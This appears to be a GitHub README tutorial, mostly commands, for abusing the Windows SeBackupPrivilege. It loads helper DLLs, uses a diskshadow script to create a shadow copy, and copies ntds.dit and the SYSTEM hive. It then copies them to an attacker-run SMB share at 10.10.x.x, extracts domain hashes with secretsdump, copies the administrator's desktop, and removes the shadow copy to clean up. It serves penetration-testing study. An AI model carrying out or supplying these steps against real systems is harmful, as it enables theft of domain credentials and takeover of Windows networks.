 # SeBackupPrivilege

If you've SeBackupPrivilege. We can use that privilege to read and get any file from the target machine. If we attack SAM, SYSTEM or ntds.dit some important files we can beacome SYSTEM.


# Exploitation

First upload [SeBackupPrivilegeCmdLets.dll](https://github.com/k4sth4/SeBackupPrivilege/blob/main/SeBackupPrivilegeCmdLets.dll) and [SeBackupPrivilegeUtils.dll](https://github.com/k4sth4/SeBackupPrivilege/blob/main/SeBackupPrivilegeUtils.dll) to target machine.

### Import he DLLs
```markdown
import-module .\SeBackupPrivilegeCmdLets.dll
import-module .\SeBackupPrivilegeUtils.dll
```

### Create a vss.dsh file
```markdown
set context persistent nowriters
set metadata c:\\programdata\\test.cab        
set verbose on
add volume c: alias test
create
expose %test% z:
```
NOTE: c:\\programdata is the writeable path where you i have upload dll and creating a test.cab

### Change the file format
```markdown
unix2dos vss.dsh
```

upload the file on C:\\programdata 

### Use diskshadow to explore the func of copy
```markdown
diskshadow /s c:\\programdata\\vss.dsh
```

### Now you can copy any file 
Copy any file to present dir and then download it to your system.

We gonna get ntds.dit and system.
```markdown
Copy-FileSeBackupPrivilege z:\\Windows\\ntds\\ntds.dit c:\\programdata\\ntds.dit
```
Now system file
```markdown
reg save HKLM\SYSTEM C:\\programdata\\SYSTEM
```
Now we can see that both ntds.dit and SYSTEM files are in our present dir.
You can also get other sensetive files like SAM, SYSTEM, SECURITY.

### Download these files using smb server.
```markdown
smbserver.py k4sth4 . -smb2support -username kt -password kt
net use \\10.10.x.x\k4sth4 /u:kt kt
```
```markdown
Copy-FileSeBackupPrivilege z:\\Windows\\ntds\\ntds.dit \\10.10.x.x\k4sth4\ntds.dit
reg.exe save hklm\system \\10.10.x.x\system
```

### Now extract the hashes from ntds.dit with SYSTEM as key
```markdown
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

### We can also Dump the whole administrator dir into Temp
```markdown
robocopy /b C:\\users\\administrator\\desktop C:\\programdata\\temp
```
We get all the desktop files in temp dir.


### Now after doing this CleanUp is necessary

### cleanUp script vss.dsh
```markdown
set context persistent nowriters
set metadata c:\\programdata\\test.cab
set verbose on
delete shadows volume test
reset
```
```markdown
unix2dos vss.dsh
```

### upload and run
```markdown
diskshadow /s c:\\programdata\\vss.dsh
```



